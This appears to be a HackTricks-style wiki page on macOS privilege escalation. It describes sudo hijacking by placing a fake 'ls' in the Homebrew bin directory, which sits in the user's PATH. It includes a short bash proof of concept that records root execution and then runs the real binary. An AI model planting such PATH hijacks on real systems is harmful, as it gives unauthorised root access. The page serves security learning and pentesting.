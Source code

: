 # macOS Privilege Escalation

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## TCC Privilege Escalation

If you came here looking for TCC privilege escalation go to:

{% content-ref url="macos-security-protections/macos-tcc/" %}
[macos-tcc](macos-security-protections/macos-tcc/)
{% endcontent-ref %}

## Linux Privesc

Please note that **most of the tricks about privilege escalation affecting Linux/Unix will affect also MacOS** machines. So see:

{% content-ref url="../../linux-hardening/privilege-escalation/" %}
[privilege-escalation](../../linux-hardening/privilege-escalation/)
{% endcontent-ref %}

## User Interaction

### Sudo Hijacking

You can find the original [Sudo Hijacking technique inside the Linux Privilege Escalation post](../../linux-hardening/privilege-escalation/#sudo-hijacking).

However, macOS **maintains** the user's **`PATH`** when he executes **`sudo`**. Which means that another way to achieve this attack would be to **hijack other binaries** that the victim sill execute when **running sudo:**

```bash
# Let's hijack ls in /opt/homebrew/bin, as this is usually already in the users PATH
cat > /opt/homebrew/bin/ls <<EOF
#!/bin/bash
if [ "\$(id -u)" -eq 0 ]; then
    whoami > /tmp/privesc
fi
/bin/ls "\$@"
EOF
chmod +x /opt/homebrew/bin/ls

# victim
sudo ls
```

Note that a user that uses the terminal will highly probable have **Homebrew installed**. So it's possible to hijack binaries in **`/opt/homebrew/bin`**.
